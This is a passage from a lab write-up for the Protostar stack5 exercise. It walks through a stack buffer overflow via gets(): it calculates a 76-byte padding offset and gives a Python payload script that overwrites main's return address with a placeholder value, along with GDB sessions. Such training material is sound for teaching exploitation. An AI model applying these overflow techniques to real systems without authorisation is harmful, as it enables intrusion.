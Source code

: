 ```
                | Frame              |
                |                    |
                +--------------------+ 0xFFFFFFFF
```

`mains`'s EBP is 0xbffff7a8 (information extracted from the `gets`' stack frame). A register in a 32bit architecture corresponds to 4 bytes. So `main`s caller EBP will be stored from  0xbffff7a8 to 0xbffff7ac. The value that follows in the stack after the saved EBP is the return pointer (`mains`'s EIP before `gets` was called). The return address is stored at 0xbffff7ac (where the stored EBP ends). In order to overwrite the return address `gets` would need to write from 0xbffff760 to 0xbffff7b0, which is 80 bytes (76 padding + 4 new return address).

### Exploitation

#### Taking control of execution

Based on the previous section, it is known that to overwrite `main`'s return pointer `gets` needs to read 80 bytes from stdin. This to overflow the local variable section, ebp section, and return pointer section of `main`'s stack frame.

To achieve it a payload similar to this will be sent:

```
76 bytes + return address
```

In order to do it, a python script will be used. For now, the instruction pointer (return address) was set to 0x45454545 to illustrate the hijacking of the return address:

```python
import struct

padding = '\xAA' * 76
returnPointer = struct.pack("I", 0x45454545)
print(padding + returnPointer)
```

A file can be generated by executing this python script:

```bash
user@protostar:~$ python payload.py > in.txt
user@protostar:~$ cat in.txt 
����������������������������������������������������������������������������EEEE
```

*in.txt* was used as input to the program in GDB:

```bash
(gdb) b main
Breakpoint 6 at 0x80483cd: file stack5/stack5.c, line 10.
(gdb) r < ~/in.txt
```

A breakpoint in main was set so to analyze how the stack is modified by the provided input. By analyzing the stack after the `gets` function was executed the following can be observed:

```bash
(gdb) info registers
...
esp            0xbffff750	0xbffff750
ebp            0xbffff7a8	0xbffff7a8
...
eip            0x80483d9	0x80483d9 <main+21>
...
(gdb) disassemble 
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
```